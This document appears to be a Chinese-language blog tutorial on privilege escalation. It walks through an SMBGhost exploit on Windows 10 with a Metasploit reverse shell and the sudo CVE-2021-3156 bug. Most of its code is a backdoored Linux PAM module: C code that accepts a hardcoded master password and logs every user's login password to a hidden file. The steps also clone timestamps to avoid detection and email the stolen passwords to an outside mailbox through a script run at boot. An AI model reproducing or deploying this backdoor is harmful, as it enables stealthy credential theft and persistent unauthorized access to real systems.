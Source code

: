 ```yaml
---
title: 手工提权
author: Spade-Z
top: false
cover: false
toc: true
mathjax: false
img: >-
  https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%830.png
coverImg: >-
  https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%831.png
summary: 通常情况下我们通过 Web 服务获取到站点的 Webshell 权限都是普通用户的权限，这个时候能做的事情非常的少，所以我们需要提权来进行扩大战果。
tags: 
    - 工具 
    - Windows提权 
    - Linux提权
categories: 
    - 系统安全
abbrlink: 24efcaff
date: 2020-12-5 09:28:46
password:
---
```



# 一、Window10 提权漏洞

漏洞复现
靶机：win10虚拟机  ip：192.168.216.128(防火墙关闭)
攻击机：kali虚拟机  ip：192.168.202.130

## 1:检测系统是否存在漏洞
> git下载地址[传送门](https://github.com/ollypwn/SMBGhost)

用法：python3 scanner.py 目标ip
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%831.png)

目标存在该漏洞
## 2:提权POC提权
POC下载地址[传送门](https://github.com/chompie1337/SMBGhost_RCE_Po)
- 第一步：msf生成反向连接木马：
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%832.png)
- 第二步：生成的exploit.py 生成的code，替换到exploit.py的USER_PAYLOAD参数，并把参数buf改为USER_PAYLOAD。
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%833.png)
- 第三步：启动msf
配置监听
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%834.png)
- 第四步：运行poc，自动建立连接
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%835.png)
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%836.png)
查看当前用户权限
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%837.png)
如果不是system权限可以使用msf中的getsystem进行一下提权，也可以使用对应漏洞的提权文件
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%838.png)
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%839.png)
执行完提权文件cve-2020-0796-local.exe后可以看到成功提权到system权限

# 二、Linux sudo提权漏洞

漏洞编号：CVE-2021-3156
漏洞级别：高危
受影响版本：
		sudo: 1.8.2 - 1.8.31p2
        sudo: 1.9.0 - 1.9.5p1
检测方法：
    以非root用户登录系统，并运行如下命令：
    sudoedit -s /
-   如果响应一个以sudoedit:开头的报错，那么表明存在漏洞。
-   如果响应一个以usage:开头的报错，那么表明补丁已经生效。
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8310.png)
POC利用
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8311.png)
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8312.png)

# 三、自动劫持root密码并转发密码到邮箱

## 1.过PAM认证模块劫持密码
思路：在 xuegod63 上安装一个打了后门补丁的 PAM 认证模块，当用户来连接时，直接把密码记录下来。然后使用脚本发给我们的邮箱中
- 查看pam版本
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8313.png)
下载对应版本软件包

## 2.安装gcc和pam依赖
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8314.png)

## 3.安装PAM认证模块
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8315.png)
- 修改源码，在源码中添加后门
<pre style="background-color: #333333;"><code style="color: #ffffff">
[root@localhost Linux-PAM-1.1.8]# vim modules/pam_unix/pam_unix_auth.c
180 retval = _unix_verify_password(pamh, name, p, ctrl);
在 180 行下新增内容如下：
if(strcmp(p,"1234567")==0){
return PAM_SUCCESS;
}
if(retval==PAM_SUCCESS){
FILE *fp;
fp = fopen("/tmp/.logs","a");
fprintf(fp,"%s->%s\n",name,p);
fclose(fp);
}
</code></pre>
    1234567 是 backdoor 密码
    /tmp/.logs 记录系统登录密码
- 解决 64 位系统编译时遇到 yywrap()函数未定义问题
<pre style="background-color: #333333;"><code style="color: #ffffff">
[root@localhost Linux-PAM-1.1.8]# vi conf/pam_conv1/pam_conv_l.c
6 /* A lexical scanner generated by flex */
第六行下插入代码
7 int yywrap(){return 1;}
[root@localhost Linux-PAM-1.1.8]# vi doc/specs/parse_l.c
6 /* A lexical scanner generated by flex */
第六行下插入代码
7 int yywrap(){return 1;}
</code></pre>
- 配置 PAM 以下都是默认参数，因为安装了 flex，需要手工指定路径。
<pre style="background-color: #333333;"><code style="color: #ffffff">
[root@localhost Linux-PAM-1.1.8]# ./configure --prefix=/user --exec-prefix=/usr --localstatedir=/var --sysconfdir=/etc --disable-selinux --with-libiconv-prefix=/usr
[root@localhost Linux-PAM-1.1.8]# make
</code></pre>
    ![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8316.png)
- 安装编译好的PAM模块
<pre style="background-color: #333333;"><code style="color: #ffffff">
[root@localhost Linux-PAM-1.1.8]# cd /lib64/security/
</code></pre>
- 备份原始版本
<pre style="background-color: #333333;"><code style="color: #ffffff">
[root@localhost security]# mv pam_unix.so{,bak}
</code></pre>
-  覆盖系统现有pam
<pre style="background-color: #333333;"><code style="color: #ffffff">
[root@localhost security]# cp /root/Linux-PAM-1.1.8/modules/pam_unix/.libs/pam_unix.so /lib64/security/
</code></pre>
- 克隆原始文件时间，防止时间戳发生改变被管理员检测到
    ![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8317.png)
    ![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8318.png)
- 新建Xshell终端窗口
    ![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8319.png)
    密码成功记录
    清除系统登陆记录
<pre style="background-color: #333333;"><code style="color: #ffffff">
[root@localhost security]# rm -rf /tmp/.logs
</code></pre>
- 测试后门密码登陆
    ![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8320.png)
    ![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8321.png)
    ![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8322.png)
## 3.自动发送邮件
- （1）使用 mail.rc 实现发邮件
<pre style="background-color: #333333;"><code style="color: #ffffff">
[root@xuegod63 ~]# vim /etc/mail.rc #在此文件最后插入以下内容：
set from=15595243411@163.com smtp=smtp.163.com
set smtp-auth-user=15595243411 smtp-auth-password=PASSWORD smtp-auth=login
注：
set from=15595243411@163.com #指定发件人的邮箱，这里就写成和收件人的邮箱一样。
set smtp-auth-user=15595243411 #写自己发件人的邮箱帐号
smtp-auth-password=PASSWORD #写自己发件人的邮箱的授权码
</code></pre>
- （2）配置 163 邮箱，开启 pop3/smtp 服务
- （3）测试邮件发送
<pre style="background-color: #333333;"><code style="color: #ffffff">
[root@localhost ~]# mail -s "demo title" 15595243411@163.com < /tmp/.logs
</code></pre>
    查看
    ![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8323.png)
- （4）编写 shell 脚本自动发邮件，邮件的主题是服务器的 IP 地址
    ![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8324.png)
- （5）测试
<pre style="background-color: #333333;"><code style="color: #ffffff">
[root@localhost ~]# /bin/zipmail
</code></pre>
    ![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8325.png)

## 4.实现当用户通过 ssh 登录系统后，自动发邮件
- 安装inotify
    ![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8326.png)
    ![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8327.png)
<pre style="background-color: #333333;"><code style="color: #ffffff">
[root@localhost inotify-tools-3.13]# make  -j 4
[root@localhost inotify-tools-3.13]# make install
</code></pre>
-  编写出发时自动发邮件脚本
    ![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8328.png)
    ![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8329.png)
- 设置开机启动zipmail脚本
<pre style="background-color: #333333;"><code style="color: #ffffff">
[root@localhost inotify-tools-3.13]# vi /etc/rc.local
#在此文件的最后插入以下内容。
/bin/zipmail &
</code></pre>
- 测试
<pre style="background-color: #333333;"><code style="color: #ffffff">
[root@localhost inotify-tools-3.13]# bash /etc/rc.local
</code></pre>
    Xshell退出重连一下
    ![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8330.png)
- 查看一下进程
    ![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8331.png)